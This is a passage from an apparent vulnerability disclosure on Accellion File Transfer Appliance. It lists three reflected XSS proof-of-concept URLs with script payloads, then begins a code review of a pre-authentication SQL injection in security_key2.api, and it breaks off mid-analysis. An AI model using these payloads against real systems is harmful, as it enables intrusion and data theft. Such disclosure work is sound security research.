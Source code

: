 
#### Multiple Cross-Site Scripting (CVE-2016-2350)

##### 1. XSS in move\_partition\_frame.html

> https://\<fta\>/courier/move_partition_frame.html
> ?f2='-prompt(document.domain);//

##### 2. XSS in getimageajax.php

> https://\<fta\>/courier/web/getimageajax.php
> ?documentname="onerror="prompt(document.domain)//

##### 3. XSS in wmInfo.html

> https://\<fta\>/courier/web/wmInfo.html
> ?msg=ssologout
> &loginurl="><svg/onload="prompt(document.domain)



#### Pre-Auth SQL Injection leads to RCE (CVE-2016-2351)

After code reviewing, a pre-authentication SQL Injection vulnerability was found in FTA. This vulnerability grants malicious users access to sensitive data and personal information on the server through SQL Injection, and launch remote code execution (RCE) by further exploiting privilege-escalating vulnerabilities.  
The key to this problem lies in the `client_properties( ... )` function called by security\_key2.api!  

**/home/seos/courier/security_key2.api**

{% highlight php startinline %}
// ...
$password = _decrypt( $password, _generate_key( $g_app_id, $client_id, $g_username ) );
opendb();
$client_info = client_properties( $client_id )[0];
// ...
{% endhighlight %}

Among these parameters, `$g_app_id` `$g_username` `$client_id` and `$password` are controllable by the attackers. And although the function `_decrypt( ... )` handles the passwords, it does not involve in the triggering of the vulnerability.  
One thing to pay special attention is that the value of `$g_app_id` will be treated as a global variable which represents the current Application ID in use, and will be applied in `opendb( )` accordingly. The code in `opendb( )` includes the following lines:

{% highlight php startinline %}
$db = DB_MASTER . $g_app_id;
if(!@mysql_select_db( $db ))
{% endhighlight %}

In `mysql_select_db`, the name of the database to be opened is controllable by the user. If wrong value was given, the program will be interrupted. Therefore, `$g_app_id` must be forged correctly.  

The following lines are the most important function `client_properties( $client_id )`.  
